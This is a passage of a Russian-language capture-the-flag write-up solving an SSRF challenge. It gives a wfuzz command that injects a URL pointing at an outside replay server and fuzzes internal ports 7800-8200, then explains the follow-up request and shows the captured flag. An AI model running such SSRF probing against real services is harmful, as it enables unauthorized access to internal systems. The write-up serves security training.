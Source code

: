 ```
wfuzz -c -v -u http://62.173.140.174:16059/contacts -d "name=test&url=http://84.201.157.244:5000/?port=FUZZ&message=test" -z range,7800-8200 --hh 468
```

![](img/img18.png)

В результате фаззинга видим, что успешная SSRF атака сработала, веб сервис работает на 8000 порту. Теперь можно подправить replay сервре, чтобы добавить возможность указать ендпоинт для перенаправления: ```http://{ replay_server }/?port=FUZZ&url=secret```, либо выполнять ```?port=8000/FUZZ```так тоже сработает.

![](img/img19.png)

В итоге получаем флаг: ```CODEBY{SM4LL_0M1SS10N_1N_7H3_C0D3}```

#### Ссылки:
> Server-side request forgery (SSRF)\
https://portswigger.net/web-security/ssrf
